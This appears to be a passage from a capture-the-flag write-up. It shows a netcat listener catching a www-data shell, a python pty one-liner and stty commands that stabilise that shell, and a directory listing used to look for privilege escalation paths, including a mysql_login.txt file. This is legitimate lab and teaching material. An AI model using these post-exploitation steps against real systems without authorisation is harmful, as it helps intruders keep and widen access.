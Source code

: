 ```commandline
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/home/itguy$ TERM=xterm
TERM=xterm
www-data@THM-Chal:/home/itguy$ ^Z
[1]+  Stopped                 nc -nlvp 1234
┌──(itchy㉿scratchy)-[~]
└─$ stty raw -echo; fg
nc -nlvp 1234

www-data@THM-Chal:/home/itguy$
```

## Horizontal Privilege Escalation

Now looking a bit more closely to hidden files and to the file permissions. Need to get more power, need more rights than a simple system user. No `.ssh` folder, so I guess, no `ssh` usage for this `itguy` user. The file `.bash_history` is pointing to the magic trash can, so that also not helpful. We can not read a lot of files it looks like.

```commandline
www-data@THM-Chal:/home/itguy$ ls -lah
total 148K
drwxr-xr-x 18 itguy itguy 4.0K Nov 30  2019 .
drwxr-xr-x  3 root  root  4.0K Nov 29  2019 ..
-rw-------  1 itguy itguy 1.6K Nov 30  2019 .ICEauthority
-rw-------  1 itguy itguy   53 Nov 30  2019 .Xauthority
lrwxrwxrwx  1 root  root     9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 itguy itguy  220 Nov 29  2019 .bash_logout
-rw-r--r--  1 itguy itguy 3.7K Nov 29  2019 .bashrc
drwx------ 13 itguy itguy 4.0K Nov 29  2019 .cache
drwx------ 14 itguy itguy 4.0K Nov 29  2019 .config
drwx------  3 itguy itguy 4.0K Nov 29  2019 .dbus
-rw-r--r--  1 itguy itguy   25 Nov 29  2019 .dmrc
drwx------  2 itguy itguy 4.0K Nov 29  2019 .gconf
drwx------  3 itguy itguy 4.0K Nov 30  2019 .gnupg
drwx------  3 itguy itguy 4.0K Nov 29  2019 .local
drwx------  5 itguy itguy 4.0K Nov 29  2019 .mozilla
-rw-------  1 itguy itguy  149 Nov 29  2019 .mysql_history
drwxrwxr-x  2 itguy itguy 4.0K Nov 29  2019 .nano
-rw-r--r--  1 itguy itguy  655 Nov 29  2019 .profile
-rw-r--r--  1 itguy itguy    0 Nov 29  2019 .sudo_as_admin_successful
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-clipboard.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-display.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-draganddrop.pid
-rw-r-----  1 itguy itguy    5 Nov 30  2019 .vboxclient-seamless.pid
-rw-------  1 itguy itguy   82 Nov 30  2019 .xsession-errors
-rw-------  1 itguy itguy   82 Nov 29  2019 .xsession-errors.old
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Desktop
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Documents
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Downloads
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Music
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Pictures
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Public
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Templates
drwxr-xr-x  2 itguy itguy 4.0K Nov 29  2019 Videos
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8.8K Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```
